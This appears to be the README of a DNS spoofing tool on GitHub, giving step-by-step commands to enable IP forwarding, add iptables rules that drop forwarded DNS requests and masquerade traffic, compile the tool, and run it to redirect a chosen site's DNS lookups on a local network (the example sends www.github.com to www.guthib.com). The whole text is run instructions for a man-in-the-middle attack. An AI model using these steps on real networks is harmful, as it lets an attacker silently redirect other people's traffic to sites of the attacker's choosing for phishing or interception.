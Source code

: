 # DNS Spoofer

## How to run

### 1. Enable ip forwarding

```sh
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP"

#### Example:

If your interface is wlo1 and your gateway is 192.168.0.1 then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 www.github.com www.guthib.com
```

This will make it so that all DNS requests to www.github.com will be redirected to www.guthib.com.
